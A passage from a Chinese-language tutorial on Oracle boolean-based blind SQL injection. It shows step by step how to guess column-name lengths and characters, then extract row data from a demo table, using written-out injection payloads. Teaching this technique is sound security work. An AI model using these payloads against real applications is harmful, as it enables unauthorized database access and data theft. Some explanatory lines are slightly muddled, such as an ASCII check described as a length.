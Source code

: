 ```
select LENGTH(column_name) from user_tab_columns where table_name='DEMO' and rownum=1;
```

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGliaDFocs47Z9cPrQlia2XnL3cCCtAo0e7V1rbLGmAFjr0w47L8pT6IRmg/640?wx_fmt=png)

对应的 SQL 注入链接如下，当 DEMO 表的第一个字段长度为 2 时正确显示。

```
1 and 2=((select LENGTH(column_name) from user_tab_columns where table_name='DEMO' and rownum=1)) --
```

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGl9LnwkzBgWqkSWKnPWjXefmI0nXPAtMEFVF0U7X33wu7HW6tlD0SxpA/640?wx_fmt=png)

**第四步，猜解每个字段名的字符。**  
SQL 语句如下：

```
select ascii(substr(column_name,1,1)) from user_tab_columnswhere table_name='DEMO' and rownum=1;
```

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlXuicnibjdcn7dwrVaWLyDx9ASdfqOa2ZKxoZPgY1zzvRArY29VWCUAbw/640?wx_fmt=png)

下面正常显示猜解出来是字母 “I”，最终确定这两个字母是 ID。

```
1 and 73=((select ascii(substr(column_name,1,1)) from user_tab_columns where table_name='DEMO' and rownum=1)) --
1 and 68=((select ascii(substr(column_name,2,1)) from user_tab_columns where table_name='DEMO' and rownum=1)) --
```

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlG98ics1J1oewWicFSIE3ibFTnlPUQpLbIKedF7Ma2CZ1ZJVZvPpRxm5MQ/640?wx_fmt=png)

当然，这个过程也可以使用 BusrpSuite 去爆破。

同理可以获取第二个字段的长度是 4，对应的 ASCII 是 78、65、77、69，也即 NAME。第三个字段为 AGE，第四个字段为 SEX。

```
1 and 78=((select ascii(substr(column_name,1,1)) from user_tab_columns where table_name='DEMO' and rownum=1 and column_name <> 'ID' ))--
```

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlWuyTErYmO0zv469dNfkW0Yibf3WcGV9IBUN6KP1vriahYbGMXTlSnJYQ/640?wx_fmt=png)

**第五步，爆字段内容。**  
如果我们获取了管理用户表 NAME 和 PWD，接下来获取字段内容。

```
1 and 102=((select ASCII(substr(CONCAT(NAME, AGE),1,1))FROM DEMO  where rownum=1 ))--
```

下面显示异常，说明当前 NAME 和 AGE 内容长度不是 102。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGl4JoWibh8n4ibEkhsttaFWDXaf8tenEkvrRRMtx280Uo9TMAuoA3MESxw/640?wx_fmt=png)

最终数字为 11 显示正常。
